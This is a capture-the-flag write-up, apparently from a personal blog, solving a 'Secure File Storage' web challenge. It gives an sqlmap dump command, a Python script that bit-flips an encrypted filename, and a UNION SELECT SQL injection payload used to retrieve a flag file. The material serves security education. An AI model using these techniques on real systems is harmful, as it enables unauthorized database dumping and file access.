

---

title: "Secure File Storage"
date: '2025-01=17'
lastmod: '2024-01-17'
author: ["Kat"]
categories: 
- Write-Ups
tags: 
- cyber
- post
- CTF
description: ""
# weight: # 1 means pin the article, sort articles according to this number
# slug: ""
draft: false # draft or not
comments: true
showToc: true # show contents
TocOpen: true # open contents automantically
hidemeta: false # hide information (author, create date, etc.)
disableShare: true	# do not show share button
showbreadcrumbs: true # show current path
image: "decompiler.png"

---

## Getting Things Set Up

First, I made sure that Burp Suite was booted and was intercepting traffic from the website. This was to capture the requests required to perform the attack, and send the proper request to get the flag.



Burp Suite intercepting traffic from the website.

Once I got that set up, I needed to create an account on the website.


The register screen for the challenge.

From there, I went to the “secure” file storage system and uploaded a file with the name `iijiijiijflag.txt` .


Adding the properly named file to the secure file storage system.

## Gathering The Info

Once it’s uploaded, I downloaded the file and looked at the intercepted download request. This request was sent to the repeater. From there, I changed the request to a post request, added the content type, and made sure that the file content displayed in the response.


Here you can see that the edited request was changed to a post request which displays the contents of the file specified.

From there, I copied the created post request and saved it into a text document.


This is the post request we created previously now in a text document.

I then took that text document and passed it through `sqlmap` using the command `sqlmap -r request.txt --dump --batch --where "id=<file_id>" --threads 10 -T file` where `<file_id>` is the file I uploaded, which I got at the end of the intercepted download request. This gave me the database entry of the file I uploaded.


At the bottom you can see the table where the ‘getflag’ file is listed. 

I made sure to take note of the `user_id`, `filename` , and `filepath` as those are what are going to be input into the sql injection.

## Bit Flipping

From there, I wrote a script that bit flipped the encrypted filename into the intended filename. What I wanted to do was to change what we uploaded when it is decrypted so that the system interpreted it as the `flag.txt` in the root folder of the system.

This is the script I made to perform the bit flip:

```python
def bitFlip( posList, bit, data):
    raw = base64.b64decode(data) #decodes base64
    list1 = list(raw) #seperates bytes into list
    #looping through list
    for pos in posList:
        list1[pos] = list1[pos] ^ bit #xors the char to the right char
    raw = bytes(list1) #turns list1 back into bytes object
    return base64.b64encode(bytes(raw)) #turns raw into byte object and encodes back to base64

bit1 = ord('i') ^ ord('.') #gets the xor of 'i' and '.'
bit2 = ord('/') ^ ord('j') #gets the xor of '/' and 'j'

cipher = <filename> #Encrypted file name gathered
cipher = bitFlip([0,1,3,4,6,7],bit1,cipher) #Here you will specify the index of each 'i'
cipher = bitFlip([2,5,8],bit2,cipher) #Here you will specify the index of each 'j'

print(f"Bit flipped: {cipher}")
```

Running this with the encrypted filename I got output `xP/sqUK6OqhSI+n65oYx0mSvvL57l57WoVfkClXUhQARzaxGRqXg0CrUbsaA9phT` 

## SQL Injection

From there, I created an sql injection that I injected into the `/api/files/download` endpoint, which was going to hopefully give me the proper `flag.txt` file I was trying to get. 

For the sql injection, I did the following query: `UNION SELECT 1,user_id,title,filename,filepath` , and with all of the proper values in place, the request looked something like: `UNION SELECT 1,130,'getflag','xP/sqUK6OqhSI+n65oYx0mSvvL57l57WoVfkClXUhQARzaxGRqXg0CrUbsaA9phT','b+YXVpogrJoGsjPTdQQTud0kMiX7I2ei8BATNwKpXGhtZuRYnT0vJbcMkK7PoZuk'` with the final query looking like what’s shown below once everything was properly encoded.


Properly encoded post request.

And once I sent that request, I got the flag!


---